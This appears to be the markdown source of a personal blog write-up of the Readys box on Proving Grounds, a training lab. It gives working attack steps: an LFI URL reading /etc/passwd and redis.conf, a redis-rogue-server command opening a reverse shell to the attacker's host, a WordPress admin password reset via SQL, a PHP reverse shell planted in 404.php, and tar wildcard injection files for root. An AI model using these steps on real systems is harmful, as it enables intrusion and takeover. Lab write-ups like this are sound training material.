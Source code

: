 ```yaml
---
layout: writeup
title: Readys - Proving Grounds
date: 2024-07-14 13:32:20 +0300
description: A Writeup of the Readys Box from Proving Grounds
image: # /assets/images/Flu/Flu_1.png
fig-caption: # Add figcaption (optional)
tags: [Linux, LainKusunagi, Redis]
---
```


Here's a writeup for Readys, an Intermediate Proving Grounds box I saw on the [LainKusanagi list of OSCP like machines](https://www.reddit.com/r/oscp/comments/1c8pzyz/lainkusanagi_list_of_oscp_like_machines/). While this box has been rated Intermediate by OffSec, I'll note that the community has rated it to be Very Hard. I'll keep an eye on that as I have slightly have had boxes that I simply could not finish even when copying and pasting commands from official writeups. Looking at you Postfish. I kick things off with nmapAutomator and check port 80 for a website. Looks like we've got a Wordpress site. 

![Readys1.png](/assets/images/Readys/Readys1.png){: .responsive-image}

So I give wpscan a shot and also take notice that we only have three ports open:

```
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
6379/tcp open  redis
```

In particular I notice that the site and the box itself are called Readys, awfully close to redis on port 6379. Could it be a clue? Could it be anything but a clue? I try to access, but it looks like authentication is required. 

![Readys2.png](/assets/images/Readys/Readys2.png){: .responsive-image}

I check the results of the wpscan, and see there is a vulnerability for a plugin called `Site Editor 1.1.1`, which has a Local File Inclusion vulnerability on [exploit-db](https://www.exploit-db.com/exploits/44340) with a proof of concept to access the local `/etc/passwd` using this URL: `http://<host>/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd`, and that works. I can see there is a user named `alice`. That could come in handy. 

From here I do some quick research to see if there is a redis file that might have a password and start looking around for it. In this case that file is `/etc/redis/redis.conf`, and by looking for `pass` in the file, I see this string: 
`# requirepass Ready4Redis?`. I check that against `redis-cli`, and it works. 

![Readys3.png](/assets/images/Readys/Readys3.png){: .responsive-image}

Thats a pretty good sign. I don't know a lot about redis, so I check [Hacktricks](https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis)for options, and I try creating an ssh key and uploading a php shell, but neither work immediately. I also dump the database using [pyredis-dump.py](https://github.com/muayyad-alsadi/pyredis-dump/blob/master/pyredis-dump.py), but it appears to be empty save evidence of one of the exploits I've already tried. Then I try [RedisRogueServer](https://github.com/n0b0dyCN/redis-rogue-server), and I eventually do that working to set up a reverse shell with: `python3 redis-rogue-server.py --rhost 192.168.229.166 --lhost 192.168.45.183 --lport 9999 --passwd Ready4Redis?` 

![Readys4.png](/assets/images/Readys/Readys4.png){: .responsive-image}

And we're off. Side note - I've been using [Penelope Shell Handler](https://github.com/brightio/penelope), and it's been great. Sets up a TTY shell automatically, and you can upload and download from the same window using its built-in menu. Unfortunately it looks like the redis user can't execute any scripts, so we may need to enumerate manually until we can find a different user or simply get another user to execute for us. It's worth noting that mysql is running, but we don't seem to be able to access it either from redis or alice. 

I check for running processes and realize that of course the wordpress server is still running, so I check for config files. In `/var/www/html/wp-config.php` we can see a DB-USER of `karl` and a DB-PASSWORD of `Wordpress1234`. We can use these credentials to log into mysql, check the wordpress database, and `SELECT * FROM wp_users;` which shows us this:

![Readys5.png](/assets/images/Readys/Readys5.png){: .responsive-image}

Initially, I think the plan is to crack it, but after a few minutes of staring at hashcat I figure we can just add our own user. So I do some googling, and I try this: 
```INSERT INTO `wordpress`.`wp_users` (`ID`, `user_login`, `user_pass`, `user_nicename`, `user_email`, `user_url`, `user_registered`, `user_activation_key`, `user_status`, `display_name`) VALUES ('2', 'pop', MD5('party1'), 'Your Name', 'test@example.com', 'http://localhost', '2022-09-01 00:00:00', '', '0', 'Your Name');```

This does create the user, but we don't have admin access, so I decide to try simply updating the admin password:

`UPDATE wp_users SET user_pass = '$P$Bji8hVfidufunf4yRQ4/SIEcgON/mL0' WHERE ID =1;`. The hash here is the phppass for `party1`. This does update the table and allow us to sign in!

![Readys6.png](/assets/images/Readys/Readys6.png){: .responsive-image}

From there I go to theme editor and edit the 404.php page for the theme in use with Ivan Sincek's reverse PHP shell, and I get a connection. 

![Readys7.png](/assets/images/Readys/Readys7.png){: .responsive-image}

And we're alice. Maybe now we can actually check linpeas and lse if we need to. And we see this in lse:

![Readys8.png](/assets/images/Readys/Readys8.png){: .responsive-image}

We check out that file, and we see this: 

![Readys9.png](/assets/images/Readys/Readys9.png){: .responsive-image}

Looks like we may have a wildcard vulnerability. It looks like it is checking the `/var/www/html` for changes made in the last 3 minutes (-mmin 3), and as long as there is at least one, it creates a backup folder called `/opt/backups/website.tar`. So I create a quick reverse shell and name it shell.sh and, then I check [hacktricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/wildcards-spare-tricks#tar) which says to use:
1. `touch "--checkpoint=1"`
2. `touch "--checkpoint-action=exec=sh shell.sh"` (with shell.sh being our malicious script)

But it doesn't work, because we get a `touch: unrecognized option '--checkpoint=1'` error. No worries, there's more than one way to skin a cat. We can use echo instead:

1. `echo "" > '--checkpoint=1'`
2. `echo "" > '--checkpoint-action=exec=sh shell.sh'`

And after a minute or so:

![Readys10.png](/assets/images/Readys/Readys10.png){: .responsive-image}

We get our root shell!

Lessons learned: There were a lot of steps to this box, but most of them were pretty straightforward. I don't think I had ever done anything with redis before, updated a MySQL table, or used anything but `echo` to exploit a wildcard vulnerability. I also needed to use a wordpress exploit before getting access to the shell from the redis exploit. All in all, I enjoyed this, but it took a while, and it seems way simpler at the end. But I don't think I'd completed a box that the Proving Grounds community rated "Very Hard" without getting a hint, so that's good. 
